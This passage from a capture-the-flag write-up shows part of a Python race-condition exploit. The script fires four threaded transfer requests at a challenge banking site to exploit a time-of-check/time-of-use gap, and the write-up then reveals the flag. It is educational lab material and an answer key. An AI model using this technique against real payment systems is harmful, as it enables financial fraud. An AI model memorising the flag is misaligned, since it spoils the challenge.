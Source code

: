 ```python
18 'destination':'EU88SECB00051380017',
19 'amount':n}
20
21 g = lambda : requests.post(chal+'?page=transfer',cookies=
get_session(),data=data)
22
23 Thread(target=g).start()
24
25 for _ in range(4):
26 transfer(5)
```
In the last two lines we initiate a transaction of 5 EURO 4 times in quick succession. Lets fire the exploit
and hope the time window is big enough!

![](img/trans.png)

It surely was! The time window between the time of check and the time of use was really big enough
for us to do four transactions of all of our transaction funds. Lets visit the promo page and grab that
free gift! And we got the flag! `CSCG{Inf1niteMon3y}`
